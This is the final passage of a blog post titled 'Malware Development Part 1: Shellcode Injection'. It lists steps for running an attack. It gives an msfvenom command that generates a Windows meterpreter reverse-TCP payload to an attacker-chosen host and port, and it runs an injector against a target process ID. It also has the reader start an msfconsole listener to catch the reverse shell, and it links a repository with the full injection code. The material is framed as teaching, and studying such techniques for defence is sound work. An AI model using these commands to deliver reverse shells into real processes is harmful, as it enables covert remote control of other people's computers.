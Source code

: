 #### Shellcode Execution Steps

1.  **Generate Shellcode**:

*   Using a tool like `msfvenom` to create the payload.
*   Example:
*   `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> exitfunc=thread --platform windows --arch x64 -f c`

**2\. Run the Code**:

*   Pass the target process ID (PID) as an argument to the program.
*   Example:
*   `injector.exe <PID>`

**3\. Start Listener**:

*   On your attacking machine, use a tool like `msfconsole` to start a listener to receive the reverse shell connection.

![](https://cdn-images-1.medium.com/max/600/1*ocV7ScHFhRXMcPPgAv5y0A.png)

![](https://cdn-images-1.medium.com/max/600/1*KDPga6nqzH5nfDHKL6dpJA.png)

#### Full Code Repository

You can find the full code and examples discussed in this article on my **GitHub repository**:  
[**https://github.com/Moataz51201/Shellcode-Injection**](https://github.com/Moataz51201/Shellcode-Injection)

- - -

#### Further Resources: Understanding the Windows API

Shellcode injection relies heavily on the **Win32 API**, a collection of core system calls and libraries that allow interaction with the Windows operating system. If you are new to these functions or want to explore them in more depth, here are some great resources:

**Microsoft’s Official Documentation**:  
[Windows API Reference](https://learn.microsoft.com/en-us/windows/win32/api/): Provides comprehensive details on every function, structure, and constant.

Stay tuned for the next episode.

By [Moataz Osama](https://medium.com/@mezo512) on [November 20, 2024](https://medium.com/p/d6d48b3cb9ec).

[Canonical link](https://medium.com/@mezo512/malware-development-part-1-shellcode-injection-d6d48b3cb9ec)

Exported from [Medium](https://medium.com) on August 26, 2025.
